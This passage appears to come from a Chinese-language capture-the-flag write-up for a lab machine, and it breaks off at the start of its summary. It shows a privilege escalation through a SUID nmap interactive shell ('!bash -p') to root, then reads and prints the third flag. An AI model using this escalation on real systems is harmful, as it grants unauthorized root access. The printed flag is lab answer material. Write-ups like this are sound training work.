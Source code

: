 ```
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:~$ /usr/local/bin/nmap —version
/usr/local/bin/nmap —version
nmap version 3.81 ( http://www.insecure.org/nmap/ )
robot@linux:~$ nmap —interactive
nmap —interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode — press h &lt;enter&gt; for help
nmap&gt; !whoami
!whoami
root
waiting to reap child : No child processes
nmap&gt; !bash -p
!bash -p
bash-4.3# whoami
whoami
root
bash-4.3# cd /root
cd /root
bash-4.3# ls -al
ls -al
total 32
drwx——— 3 root root 4096 Nov 13 2015 .
drwxr-xr-x 22 root root 4096 Sep 16 2015 ..
-rw———- 1 root root 4058 Nov 14 2015 .bash_history
-rw-r—r— 1 root root 3274 Sep 16 2015 .bashrc
drwx——— 2 root root 4096 Nov 13 2015 .cache
-rw-r—r— 1 root root 0 Nov 13 2015 firstboot_done
-r———— 1 root root 33 Nov 13 2015 key-3-of-3.txt
-rw-r—r— 1 root root 140 Feb 20 2014 .profile
-rw———- 1 root root 1024 Sep 16 2015 .rnd
bash-4.3# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
bash-4.3# ls
ls
firstboot_done key-3-of-3.txt
```

成功拿到第三个key：

04787ddef27c3dee1ee161b21670b4e4

拿到靶机root权限，game over。



## 总结

这个靶机的难度并不大，遇到的难点：
